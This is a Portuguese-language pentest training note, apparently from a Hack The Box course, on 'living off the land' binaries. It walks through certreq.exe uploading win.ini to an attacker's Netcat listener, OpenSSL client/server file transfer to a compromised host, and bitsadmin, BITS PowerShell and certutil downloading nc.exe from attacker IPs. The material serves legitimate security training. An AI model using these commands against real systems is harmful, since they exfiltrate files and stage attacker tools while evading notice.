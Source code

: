 A frase "Vivendo da terra" foi cunhada por Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) às [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

O termo LOLBins ( Viver dos binários da terra ) veio de uma discussão no Twitter sobre o que chamar de binários que um invasor pode usar para executar ações além do objetivo original. Atualmente, existem dois sites que agregam informações sobre os binários Living off the Land:

- [Projeto LOLBAS para Binários do Windows](https://lolbas-project.github.io/)
- [GTFOBins para binários Linux](https://gtfobins.github.io/)

Viver fora dos binários da terra pode ser usado para executar funções como:

- Download
- Carregar
- Execução de Comando
- Leitura de arquivo
- Gravação de arquivo
- Bypasses

Esta seção se concentrará no uso de projetos LOLBAS e GTFOBins e fornecerá exemplos para funções de download e upload em sistemas Windows e Linux.

## Usando o projeto LOLBAS e GTFOBins

[LOLBAS para Windows](https://lolbas-project.github.io/#) e [GTFOBins para Linux](https://gtfobins.github.io/) são sites onde podemos procurar binários que podemos usar para diferentes funções.

### LOLBAS

Para procurar funções de download e upload em [LOLBAS](https://lolbas-project.github.io/) nós podemos usar `/download` ou `/upload`.

![[Pasted image 20230703215439.png]]

Vamos usar [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) como um exemplo.

Precisamos ouvir em uma porta do nosso host de ataque o tráfego recebido usando o Netcat e, em seguida, executar o certreq.exe para fazer upload de um arquivo.

#### Carregue win.ini no nosso Pwnbox

```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

Isso enviará o arquivo para a sessão Netcat e podemos copiar e colar seu conteúdo.

#### Arquivo recebido em nossa sessão Netcat

```shell-session
casluxd@htb[/htb]$ sudo nc -lvnp 80

listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Se você receber um erro ao executar `certreq.exe`, a versão que você está usando pode não conter o `-Post` parâmetro. Você pode baixar uma versão atualizada [aqui](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) e tente novamente.

### GTFOBins

Para procurar a função de download e upload em [GTFOBins para binários Linux](https://gtfobins.github.io/), nós podemos usar `+file download` ou `+file upload`.

![[Pasted image 20230703215608.png]]

Vamos usar [OpenSSL](https://www.openssl.org/). É frequentemente instalado e frequentemente incluído em outras distribuições de software, com os administradores de sistemas usando-o para gerar certificados de segurança, entre outras tarefas. O OpenSSL pode ser usado para enviar arquivos "estilo nc."

Precisamos criar um certificado e iniciar um servidor em nosso Pwnbox.

```shell-session
casluxd@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

#### Levante o servidor em nosso Pwnbox

```shell-session
casluxd@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Em seguida, com o servidor em execução, precisamos baixar o arquivo da máquina comprometida.

#### Baixar arquivo da máquina comprometida

```shell-session
casluxd@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Outras ferramentas comuns de Living off the Land

### Função de download do Bitsadmin

O [Serviço de transferência inteligente de fundo ( BITS )](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) pode ser usado para baixar arquivos de sites HTTP e compartilhamentos SMB. Ele "inteligentemente" verifica a utilização do host e da rede em consideração para minimizar o impacto no trabalho em primeiro plano do usuário.

#### Download de arquivo com Bitsadmin

```powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

O PowerShell também permite a interação com o BITS, permite downloads e uploads de arquivos, suporta credenciais e pode usar servidores proxy especificados.

```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) descobriu que o Certutil pode ser usado para baixar arquivos arbitrários. Está disponível em todas as versões do Windows e tem sido uma técnica popular de transferência de arquivos, servindo como defacto `wget` para Windows. No entanto, a Interface de verificação de antimalware ( AMSI ) atualmente detecta isso como uso malicioso de Certutil.

#### Faça o download de um arquivo com Certutil

```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

## Prática Extra

Vale a pena ler os sites LOLBAS e GTFOBins e experimentar o maior número possível de métodos de transferência de arquivos. Quanto mais profundo, melhor. Você nunca sabe quando precisará de um desses binários durante uma avaliação e economizará tempo se você já tiver notas detalhadas sobre várias opções. Alguns dos binários que podem ser aproveitados para transferências de arquivos podem surpreendê-lo.